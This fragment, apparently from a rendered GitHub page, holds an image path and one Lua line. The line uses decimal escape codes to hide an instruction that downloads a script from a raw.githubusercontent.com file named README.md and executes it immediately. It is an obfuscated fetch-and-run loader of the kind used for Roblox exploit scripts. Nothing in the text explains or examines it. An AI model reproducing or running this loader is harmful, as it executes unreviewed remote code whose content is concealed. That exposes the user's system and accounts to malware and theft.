 loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\99\114\97\99\107\101\100\49\51\47\117\112\100\97\116\101\100\45\115\111\117\114\99\101\45\111\102\45\83\79\85\82\67\69\47\109\97\105\110\47\82\69\65\68\77\69\46\109\100\34\41\41\40\41\10")()
